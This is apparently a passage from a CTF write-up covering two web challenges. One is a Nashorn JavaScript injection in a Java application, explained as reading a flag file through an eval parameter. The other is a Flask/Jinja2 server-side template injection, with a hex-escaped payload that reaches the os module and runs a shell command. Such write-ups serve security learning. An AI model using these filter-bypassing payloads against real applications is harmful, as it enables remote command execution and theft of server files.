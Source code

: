 
**Explanation**

* **Vulnerability:** There's a Java application that's vulnerable to command injection. An attacker can inject JavaScript code into a command executed by the application.
* **Nashorn Engine:**  The Java application isn't using standard JavaScript, but rather the Nashorn engine. This makes typical file reading and command execution techniques used with Node.js ineffective.
* **Solution:** The StackOverflow answer provides a custom JavaScript function that can be used specifically with the Nashorn engine to read files:
    * **java.nio.file.Paths.get('/home/ctf/flag.txt'):** Constructs a file path object pointing to the target file.
    * **java.nio.file.Files.readAllBytes(pathObj):** Reads the contents of the file into a byte array.
    * **Java.from(bytesObj):** Helps the Nashorn engine handle Java data types.
    * **String.fromCharCode.apply(null, bytes):** Converts the file's bytes into a string.
* **Exploit:** The provided HTTP request shows the attacker exploiting the vulnerability. The `eval` parameter takes JavaScript code encoded in URL encoding (%2b, etc.). This code defines the file-reading function and then executes it, likely revealing the flag.


### Flag

`CTF{a9e8fe4e6c34ba63d43414e3729db5ec9dc9582f6b7d3d0c25351973d6dfd6a7}`

<a name="grocery-list"></a>

## grocery-list (280 pts, 45 solves) - Web

Description:

```
"Ehm...milk...eggs...what else? WHAT ELSE?!"

Day after day i just could not remember all the stuff i was planning to buy.

No more! Now I've made myself my own grocery list website! And wait, there's more: IT'S HACKER PROOF

Is you memory as volatile as mine? Maybe you should use the my web app...
```

In this scenario, we exploit an SSTI (Server-Side Template Injection) vulnerability in a Flask/Jinja2 application lacking proper restrictions. The goal is to execute arbitrary commands on the server or read sensitive files.

**Proof of Concept:**

After some exploration, I crafted the following payload:

```jinja2
{{ '{%' }} for key, value in cycler|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")|attr("items")() %}
    {{ '{%' }} if key == "\x6f\x73" %}
    {{ value|attr("p\x6fpen")("cat f*")|attr("read")() }}
    {{ '{%' }} endif %}
{{ '{%' }} endfor %}
```
